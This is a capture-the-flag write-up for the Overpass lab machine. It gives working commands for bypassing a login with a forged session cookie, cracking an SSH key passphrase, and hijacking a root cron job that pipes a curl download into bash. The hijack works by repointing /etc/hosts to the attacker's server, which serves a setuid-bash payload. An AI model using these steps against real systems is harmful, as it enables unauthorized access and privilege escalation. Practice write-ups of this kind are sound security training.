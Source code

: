 ### WRITEUP FOR OVERPASS


## Hack the machine and get the flag in user.txt

Doing Basic Enumeration such as nmap and dirsearch
```
$ nmap -oN nmap_result <IP>
$ python3 dirsearch -u http://<IP> -e php -F -x 400
``` 
We found out that the webpage is open and has an /admin directory.Having a look at the /admin directory
, which has a basic login page, we find login.js, which has this function
```
async function login() {
....
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We just need to put the cookie "SessionToken" as anything other than "Incorrect credentials", we can do this with curl
```
curl http://<IP>/admin --cookie="SessionToken"="a" -L
```
We are redirected to a webpage which has username and
we retrive a rsa-id key, which requires a passphrase.
We use ssh2john to decrypt the passphrase
```
$ /location/ssh2john id_rsa > john_hash
$ /location/john john_hash --wordlist='/location/rockyou.txt'
$ ssh -i id_rsa james@<IP>
```
and we get the passphrase as 'james13'. Using this we login and get the user flag.

## Escalate your privileges and get the flag in root.txt

For this part we need to have a look at the system using linpeas. So we need to transfer linpeas to victim machine. For this  we need the james's password.
We can Take a look at the source code overpass.go, we
find that it save the password at .overpass.
So the victim must have used this tool himself, thus looking at james/.overpass we find a ROT47 string, which gives james's password.
Now we can proceed with linpeas.
```
scp /location/linpeas.sh james@<IP>:/dev/shm
```
/dev/shm because it is world read-able and write-able.
having a look using linpeas we find
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
````
Now if we look at buildscript.sh we find this command
```
echo "$(date -R) Builds completed" >> /root/buildStatus
```
looking further with linpeas we found  /etc/hosts file as writeable by everyone. We can change the IP of overpass.thm as our own IP and execute our command.
So after changing the ip we make these directories
www/download/src/
and make buildscript.sh in src as
```
#! /bin/bash

chmod +s /bin/bash
```
now we host a python server at www directory
```
sudo python3 -m http.server 80
```
(If having issue with port 80 kill and restart using netstat -tulnp)
after hosting the server on our system. if we watch live the permission of /bin/bash file on victims pc
```
watch ls -l /bin/bash
```
we find that the permission changes from x to s
and thus we can get the permission of root directory
```
/bin/bash -p
```
And thus we have completed the room.